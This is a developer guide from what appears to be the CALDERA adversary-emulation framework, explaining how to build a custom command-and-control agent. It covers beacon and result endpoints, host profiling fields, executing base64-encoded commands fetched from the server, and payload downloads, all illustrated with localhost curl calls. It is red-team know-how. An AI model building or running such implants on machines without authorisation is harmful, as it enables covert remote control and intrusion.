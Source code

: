 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a full representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. You can
extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Types of agents

There are 2 unique types of agents. Determining which one you want is your first step:

1) Direct - a direct communication between agent-and-server. HTTP communication is an example.
2) Indirect - an indirect communication between agent-and-server. Using a trusted 3rd party, like GitHub Gists, 
is an example.

## Building a direct agent

Start by getting a feel for the HTTP(S) agent endpoints, which are located in the rest_api.py module.
```
POST  /beacon 
POST  /result
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

| Key           | Value  | Notes |
| :------------- |:------------- |:-------------|  
| server        | The location (IP or FQDN) of the C2 server    | |
| platform      | The operating system | The platform is evaluated against the platform field of each ability. Currently you can use windows, darwin or linux |
| host          | The hostname of the machine | |
| username      | The username running the agent | |
| architecture  | The architecture of the host. | |
| executors     | A list of executors allowed on the host | Executors are evaluated against the executor block of each ability. Currently, you can use sh, cmd, psh and pwsh |
| privilege     | The privilege level of the agent process, either User or Elevated | Privilege is evaluated against the optional privilege block of each ability file |
| c2            | The C2-communication name | The c2 determines how to send instructions back to the agent. You should use "http" |
| pid           | The process identifier of the agent | |
| location      | The location of the agent on disk | |
| exe_name      | The name of the agent binary file | |

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of minutes (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded - which will be empty.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[]"}
```

> The paw property returned back from the server. This represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Start an operation against your agent, selecting to keep the operation alive forever. 

> If you did not include a platform or executors then the operation will not be able to assign abilities to the agent. 

Re-run the call to /beacon as above, this time including your paw:
```
profile=$(echo '{"paw":"dcoify"}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 24, "watchdog": 0, "instructions": "[
    {"id":"110300-895546","sleep":6,"command":"ZmluZCAvVXNlcnM...", "executor":"sh", "timeout :60, "payload":""},
    ...
    ...
]"}
```

You should get a full list of instructions, each containingn:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the shell response to the /result endpoint. 
```
data=$(echo '{"id":$id, "output":$output, "status": $status, "pid":$pid}' | base64)
curl -s -X POST -d $data localhost:8888/result
```

The POST details are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of minutes to allow a dead beacon before killing the agent. 



